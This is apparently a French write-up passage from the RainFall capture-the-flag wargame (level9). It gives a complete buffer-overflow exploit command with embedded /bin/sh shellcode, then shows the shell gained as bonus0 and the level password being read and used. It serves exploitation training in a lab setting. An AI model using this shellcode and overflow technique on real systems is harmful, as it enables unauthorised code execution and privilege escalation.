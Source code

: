 * Ce qui nous donne en la lançant:

```shell
  level9@RainFall:/tmp$ ~/level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A" * 80 + "\x0c\xa0\x04\x08"')
    $ whoami
      bonus0
    $ cat /home/user/bonus0/.pass
      f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
  level9@RainFall:/tmp$ su bonus0
    Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
  bonus0@RainFall:~$
```

> ET VOILA. Pas besoin de reverse le code à chaque fois pour comprendre comment faire une faille. Il suffit de savoir ce que l'on contrôle comme registre et comment l'exploiter.